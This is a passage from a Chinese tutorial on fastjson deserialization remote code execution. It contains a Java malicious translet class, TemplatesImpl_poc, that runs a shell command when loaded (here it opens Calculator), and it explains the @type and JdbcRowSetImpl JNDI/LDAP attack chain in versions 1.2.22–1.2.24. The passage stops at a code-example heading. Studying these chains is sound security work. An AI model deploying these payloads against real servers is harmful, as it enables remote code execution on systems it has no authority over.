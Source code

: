 `TemplatesImpl_poc.java` (就是恶意类)(我这里用的弹计算器)

```java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

import java.io.IOException;

public class TemplatesImpl_poc extends AbstractTranslet {

    static {
        try {
            String[] cmd = {"/bin/sh", "-c", "open -a Calculator"};
            Runtime.getRuntime().exec(cmd);
        } catch (IOException e) {
            e.printStackTrace();
        }
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {
    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {
    }
}
```

# 各个版本

## 1.2.22-1.2.24版本

### 原理

`fastjson`设置了一个`@type`的东西，能通过反射指定实例化一个类，`1.2.24`及以前的版本默认开启这个功能，并且没设置类的黑白名单，导致服务器加载恶意构造的调用链，最终实现`RCE`

例如经典的`JdbcRowSetImpl`，攻击过程如下：

1. 使用`@type`指定`JdbcRowSetImpl`
2. `fastjson`解析后创建一个`JdbcRowSetImpl`的空对象（实例）
3. 寻找并调用对应的`Setter`方法（`"dataSourceName":"ldap://..."` -> 调用`setDataSourceName("ldap://...")`），找到了`JdbcRowSetImpl`内的`setAutoCommit`方法，在其中有一个`connect()`方法
4. `connect()`方法会执行一个`JNDI`查询，查询的地址正是通过`setDataSourceName`方法设置进去的恶意`LDAP`地址

### 代码示例

